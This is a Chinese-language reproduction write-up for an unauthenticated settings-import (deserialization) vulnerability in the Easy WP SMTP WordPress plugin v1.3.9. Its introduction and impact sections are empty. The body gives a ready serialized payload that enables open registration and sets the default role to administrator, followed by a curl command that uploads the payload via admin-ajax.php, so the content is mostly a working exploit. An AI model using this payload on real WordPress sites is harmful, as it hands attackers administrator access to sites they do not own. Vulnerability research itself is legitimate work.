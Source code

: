 WordPress Plugin - Easy WP SMTP 反序列化漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP
SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp\_import\_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users\_can\_register）并将用户默认角色（default\_role）设置为数据库中的"管理员"。

1.创建一个文件名" /tmp/upload.txt"，并添加以下内容：

    a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2.上传文件

    $ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

![](./resource/WordPressPlugin-EasyWPSMTP反序列化漏洞/media/rId24.shtml)
